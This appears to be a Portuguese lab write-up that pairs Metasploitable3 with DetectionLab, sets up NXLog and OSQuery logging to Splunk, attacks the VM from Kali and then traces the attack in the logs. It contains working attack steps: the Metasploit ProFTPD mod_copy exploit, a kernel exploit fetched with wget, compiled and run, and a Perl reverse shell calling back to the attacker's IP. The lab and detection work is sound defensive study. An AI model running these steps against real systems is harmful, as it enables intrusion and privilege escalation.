Adição do [Metasploitable3](https://github.com/rapid7/metasploitable3) (com seus logs e telemetrias) ao [DetectionLab](https://detectionlab.network/).


<!--truncate-->

> Observação: esse guia pode ser um pouco difícil de acompanhar caso não conheça o Detection Lab, mas basta instala-lo uma vez que tudo ficará mais fácil de entender.

# Índice

# Introdução
O Metasploitable3 é uma máquina com serviços propositalmente vulneráveis. Existem várias versões dele, eu escolhi a terceira por ser a [mais nova](https://github.com/rapid7/metasploitable3/wiki#differences-between-metasploitable-3-and-the-older-versions).

Já o [DetectionLab](https://twitter.com/DetectionLab) é um agrupado de ferramentas de detecção e logging, que juntas se tornam um ótimo ambiente de testes.

- [Twitter do DetectionLab](https://twitter.com/DetectionLab)
- [Github do Criador](https://github.com/clong)
- [Site oficial](https://detectionlab.network)


_Imagem retirada do site oficial - https://detectionlab.network_


**Pontos importantes**:
- O tráfego de rede é loggado pelo Zeek;
- Suricata é um IDS, um IPS, um NSM e processador de captura de pacotes open source, ele trabalha junto com o Zeek na análise de tráfego;
- O Velociraptor e o OSQuery nos apoiam quanto a análise do endpoint e ambos possuem sua própria interface web;
- O OSQuery consegue fazer consultas de baixo nível do SO. 
  - Ele expõe as informações do SO á um banco de dados que pode ser consultado por uma interface web chamada Fleet;
  - Apesar ter sua própria interface web, o OsQuery envia logs dos resultados das consultas (`index=osquery`) e também de status dele mesmo (INFO/WARN/ERROR). 
- Todos esses logs podem ser consultados no Splunk.

## Combo - Metasploitable3 & DetectionLab
Combinando a capacidade de detecção e investigação do Splunk + OSQuery, com os futuros ataques feitos ao servidor vulnerável, ganhamos a capacidade de identificar as etapas do ataque. Mas antes de seguir com a prática, temos que entender como os componentes interagem, que após as minhas customizações, passa a funcionar da seguinte forma:

_Desenho da arquitetura do lab do ponto de vista das funcionalidades_ 

Observações:
- Configurei o envio dos logs do apache para o Splunk via NXLog (mais detalhes em [NXLog](#nxlog));
- Configurei a coleta de telemetrias pelo OSQuery (mais detalhes em [OSQuery e Fleet](#osquery-e-fleet));
- Instalei uma VM do Kali para efetuar os ataques;
- Desliguei as máquinas windows do DetectionLab pois não iam ser usadas;
- _O agente do Velociraptor ainda não está configurado no Metasploitable, portanto seguimos apenas com o OSQuery._

# Setup TLTR - Too lazy to read
Se você estiver com pressa, ou já saiba como tudo isso funciona, basta seguir o passos abaixo.

> Caso desconheça as ferramentas acima, recomendo ler um pouco antes de tentar instalar e configurar.
{: .prompt-info}

## Instalação 
**Com o detectionlab já INSTALADO e funcionando use os comandos abaixo:**
```shell
git clone https://github.com/imgodes/DetectionLabMetasploitable3.git
cd DetectionLabMetasploitable3
vagrant up
```

Crie um index no Splunk chamado `syslog`. 
Explicação detalhada em [index](#index).

## Acessos

- Fleet login: https://192.168.56.105:8412 - admin@detectionlab.network:Fl33tpassword!
- Splunk login: https://192.168.56.105:8000 - admin:changeme
- Velociraptor login: https://192.168.56.105:9999 - admin:changeme
- Metasploitable3 em http://192.168.56.210 - vagrant:vagrant

> Agora vamos a apresentação das customizações feitas. Lembrando que é tudo meramente informativo, afinal, será configurado automaticamente após executar `vagrant up`(exceto a configuração do index do Splunk).
{: .prompt-danger}

# Logging
O Metasploitable é somente uma máquina vulnerável alvo do nosso ataque, então sozinha, seria difícil de investigar e identificar a atividade maliciosa. Por essa razão, instalei o OSQuery e o NXLog no Metasploitable. Essas ferramentas vão nos das a capacidade: 
- **OSQuery** 👉 Consultar processos, pastas, arquivos, comandos usados, modificações, sockets de rede e muitas outras informações sobre o sistema operacional em tempo real, por meio de comandos SQL;
  - Pode ser consultado pela interface web do Fleet, ou pelo próprio OSQuery mesmo (dentro da máquina do Metasploitable);
- **NXLog** 👉 Envio de logs de máquina ao Splunk;
- **Splunk** 👉 Consulta de logs de maneira centralizada.


_Desenho da arquitetura do lab do ponto de vista do logging_ 

## OSQuery e Fleet
O OSQuery é uma ferramenta que permite consultar informações do SO. 

Já o Fleet é um gerenciador de OSQuery open source, com ele podemos gerenciar e consultar o OSQuery em vários dispositivos por meio de uma interface web.

Processos, operações de rede, e muitas outras coisas podem ser consultas. Para a alegria do brasileiro médio, existem  muitos "packs de consultas" prontos voltados para identificação de ataques. Esses packs, são queries prontas, basta executa-las. 

> Exemplos - [OSQuery packs oficiais](https://github.com/osquery/osquery/tree/master/packs), [Palantir Packs](https://github.com/palantir/osquery-configuration/tree/master)

- Os "agentes" do OSQuery são registrados no Fleet.
  - As consultas e configurações do agente Osquery são fornecidas pelo Fleet através de uma conexão TLS.  
- A configuração do agente é definida pelo arquivo `osquery.flags`{: .filepath} 
- O nosso Fleet do DetectionLab é pré-configurado com os arquivos do [Palantir](https://github.com/palantir/osquery-configuration). 
- As opções ativadas no arquivo de `osquery.flags`{: .filepath} são as do próprio Palantir, e não alterei nada, apenas peguei do repositório deles. 
- De acordo com o repositório do Palantir, é esperado que hosts Linux tenham o arquivo [ossec-rootkit.conf](https://github.com/palantir/osquery-configuration/blob/master/Classic/Servers/Linux/packs/ossec-rootkit.conf) em `/etc/osquery/packs/ossec-rootkit.conf`{: .filepath} isso é garantido pelo vagrant quando executamos `vagrant up`.
- A opção user_events é desabilitada por padrão, pois de acordo com a documentação é redundante.
> "On Linux, a companion table called user_events is included that provides several authentication-based events. If you are enabling process auditing it should be trivial to also include this table" - [User event auditing with Audit](https://osquery.readthedocs.io/en/stable/deployment/process-auditing/)

## NXLog
O NXLog é minha ferramenta favorita para encaminhamento de logs. NXLog pode processar eventos de milhares de fontes diferentes, funciona em sistemas antigos e novos. É capaz de processar um volume absurdo de logs (de acordo com a [documentação](https://docs.nxlog.co/userguide/intro/about-nxlog.html)). Trabalha bem com diversos protocolos de rede, transporte, e criptografias, além de suportar  também de formatos de logs dos mais variados (Syslog, Windows Event Log, JSON, etc). E mesmo que não tenha alguma predefinição, ainda é possível fazer o parsing manualmente.

Então iremos instalar o NXLog no Metasploitable3, para o parsing inicial, e envio dos logs do apache para o Splunk. A configuração do NXLog é toda centralizada no arquivo `nxlog.conf`{: .filepath}. 

- A minha configuração está disponível no [github](https://raw.githubusercontent.com/imgodes/DetectionLabMetasploitable3/master/nxlog.conf);
- O agente do NXlog usado é o 2.10 para Ubuntu 14.04 (trusty);

O agente do NXLog consegue ler alguma entrada ([Input](#nxlog-input)), manipula-la (Exec) e enviar para alguma saída([Output e Route](#nxlog-output)). Essas diretrizes são definidas todas no mesmo arquivo `nxlog.conf`{: .filepath}.

### NXLog Input
É a entrada dos logs, nesse caso um arquivo.

- Configurei o NXLog para ler os logs do apache em `/var/log/apache2/access.log`{: .filepath};
- Fiz uma regex para fazer o parsing dos campos do apache;
  - Essas configurações estão de acordo com as configurações de logging que declarei no arquivo `apache2.conf`, caso altere, lembre de alterar manter a concordância entre eles.

```xml
<Input apache_access>
    Module im_file
    File        "/var/log/apache2/access.log"
    <Exec>
        if $raw_event =~ /(?x)^(\S+)\ \S+\ (\S+)\ \[([^\]]+)\]\ \"(\S+)\ (.+)
                          \ HTTP\/\d\.\d\"\ (\S+)\ (\S+)\ \"([^\"]+)\"
                          \ \"([^\"]+)\"/
        {
            $Hostname = $1;
            if $2 != '-' $AccountName = $2;
            $EventTime = parsedate($3);
            $HTTPMethod = $4;
            $HTTPURL = $5;
            $HTTPResponseStatus = $6;
            if $7 != '-' $FileSize = $7;
            if $8 != '-' $HTTPReferer = $8;
            if $9 != '-' $HTTPUserAgent = $9;
        }
    </Exec> 
</Input>
```
{: file='/etc/nxlog/nxlog.conf'}

### NXLog Output
Aqui configuramos o que vem do Input e vai para o Splunk.

- Digo que saída usará a porta `514/UDP` sendo que o destino será o IP do servidor Splunk;
- Executo a função `drop()` para descartar logs cujo o hostname vem como ipv4 de loopback (isso estava floodando o Splunk de eventos);
- Executo a função `to_json()` para converter o log para o formato JSON.

```xml
<Output syslog_udp>
    Module     om_udp
    Host       192.168.56.105
    PORT       514 
    <Exec>
        if ($Hostname == '127.0.0.1') drop();
        to_json();
    </Exec>
</Output>

<Route 1>
    Path apache_access => syslog_udp
</Route>
```
{: file='/etc/nxlog/nxlog.conf'}

## Splunk 

Os logs são enviados ao Splunk por meio do agente do [NXLog](https://nxlog.co/) pela porta `514/udp` e caem no index chamado "syslog". O problema é que esse index ainda não existe. Teremos que configura-lo na mão.

### Index
Para configurar um index configurar um index. Basta clicar em `Settings` > `Indexes` > `New Index`

{: width="400" heigth="400"} 

Depois basta colocar o nome e dale:

{: width="400" heigth="400"}

Feito isso seu lab está pronto para a maldade.

# Attack
O ataque não foi grande coisa. Meu foco era ver como a o ataque poderia ser observado nos logs a fim de exemplificar como pode ser usado.

## Scanning
Um scan simples com nmap para começar.
```shell
nmap -sV -p- 192.168.56.210
```
{: file="Shell Kali"}



Haviam vários vetores de ataque, fui no primeiro que li na tela rsrs.

Ao ver a combinação do ProFTP + Apache, podemos supor que temos permissão de gravação no SITEPATH. Então, se explorarmos o serviço ProFTPD podemos abusar da permissão no Apache SITEPATH, o que nos permitirá obter shell reverso. Mas lógico que tudo isso é automático rs, eu só vou aperta um botão. 

## Exploiting
Usando o `msfconsole` > `search proftp` e encontrei o exploit [modcopy execution](https://www.exploit-db.com/exploits/37262).
```shell
use proftpd_modcopy_exec
set RHOST 192.168.56.210
set TARGETURI /
set SITEPATH /var/www/html/
set payload payload/cmd/unix/reverse_perl
set LHOST 192.168.56.109
exploit
```
{: file="Shell Kali"}



Agora com acesso ao shell, podemos escalonar privilégio. 
A história é mais longa do que isso, mas resumindo, usei um exploit para aquele kernel em específico.

No Kali Linux executei uma busca por aquela versão do kernel no exploitdb, e deixei o código malicioso disponível para download. 
```shell
searchsploit linux local kernel 3.13 ubuntu 14.04
searchsploit -m 37292.c
mv 37292.c /tmp
python3 -m http.server 80
```
{: file="Shell Kali"}



Voltando a console que ganhamos acesso com o usuário www-data, vamos baixar o exploit.
```shell
wget 192.168.56.109/37292.c
cd tmp
gcc 37292.c -o salve
./salve
whoami
```
{: file="Shell Web Server"}



Aqui é o fim da exploração, vamos ao lado azul da força ver o que foi loggado ao longo do processo. 

# Detect 
Vou me basear no Mitre ATT&CK para descrever a técnica usada, e no cyber kill chain para descrever os momentos do ataque. Clique na imagem abaixo para verificar o gráfico.


- A curva vai de T₀/M₀ á Mբ/Tբ;
- Observe que para cada tempo Tₛ, temos diferentes capacidades de detecção variando de acordo com a ferramenta que registra aquele momento Mₛ do atacante.

## Detecting Scan 

### Detecting Scan - Suricata

A seguinte search poderia ser feita para identificar quais origens tem feito comunicação com o web server e quais alertas foram gerados pelo Suricata.

```sql
index=* dest_ip="192.168.56.210"
| stats values(src_ip), values(dest_ip), values(dest_port), values(app_proto), values(alert.signature) by src_ip, alert.category
```
{: file="Splunk Search"}


_clique na imagem para expandir_

> Existem outros logs de quando eu ainda estava testando o laboratório, mas a exploração foi feita pelo IP final .109. 


### Detecting Scan - Zeek

Com as informações da busca anterior, podemos ver com quantos bytes foram trafegados entre os hosts:
```sql
index=*  id.orig_h="192.168.56.109" id.resp_h="192.168.56.210" sourcetype="zeek:json" 
| bin span=3min _time 
| stats values(id.orig_h), values(id.resp_h), values(id.resp_p), sum(orig_ip_bytes), sum(resp_ip_bytes) by _time
```
{: file="Splunk Search"}


_clique na imagem para expandir_

Vemos um volume absurdo de variação de portas destino e também dos bytes trafegados.

## Detecting Exploit

### Detecting ProFTP Exploit - Splunk
Pelos logs do apache podemos buscar pelo IP do atacante e separar as requisições pelo código de retorno.
```sql
index="syslog" Hostname="192.168.56.109" 
| eval decodedHTTPURL=urldecode(HTTPURL)
| stats values(HTTPMethod), values(decodedHTTPURL) by HTTPResponseStatus, HTTPUserAgent
```
{: file="Splunk Search"}



Encontramos a requisição maliciosa.

Pelos logs do zeek, temos evidencias das conexões na porta 4444, confirmando o sucesso **de rede** da requisição acima.
```sql
index=*  id.orig_h="192.168.56.109" id.resp_h="192.168.56.210" id.resp_p=4444 sourcetype="zeek:json"
| stats values(id.orig_h), values(id.resp_h), values(id.resp_p), sum(orig_ip_bytes), sum(resp_ip_bytes) by _time
```
{: file="Splunk Search"}


### Detecting ProFTP Exploit - OSQuery
Agora á nível de máquina, podemos verificar no OSQuery quais os efeitos do exploit.
Busquei primeiro pelos processos criados que possuem um command line com o IP do atacante.

```sql
SELECT * FROM processes where cmdline LIKE '%192.168.56.109%';
```
{: file="OSQuery Search"}


Como uma conexão foi estabelecida anteriormente, busquei por sockets abertos com o IP do atacante também:
```sql
SELECT * FROM process_open_sockets where remote_address =  '192.168.56.109';
```
{: file="OSQuery Search"}



Vamos ao estudo do que aconteceu. Quebrando o payload original em partes, e entendendo cada uma delas. O payload executado foi o seguinte:

```perl
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.56.109:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' &
```
{: file="Payload malicioso"}

1. Esse payload cria um fork (processo filho);
```perl
$p=fork;exit
```

2. Manipula as variáveis de ambiente;
```perl
if($p);
  foreach my $key(keys %ENV){
    if($ENV{$key}=~/(.*)/){
    $ENV{$key}=$1;
    }
  }
```

3. Cria uma variável `$c`, que cria um socket de rede com o Kali;
```perl
$c=new IO::Socket::INET(PeerAddr,"192.168.56.109:4444");
```

4. O fork le a entrada(`STDIN`) que digitar-mos, e escreve a saída (`$~`) no socket `$c` por meio de um redirecionamento, isso tudo em looping, fazendo parecer um shell interativo.
```perl
STDIN->fdopen($c,r);
$~->fdopen($c,w);
while(<>){
  if($_=~ /(.*)/){
  system $1;
  }
}
```

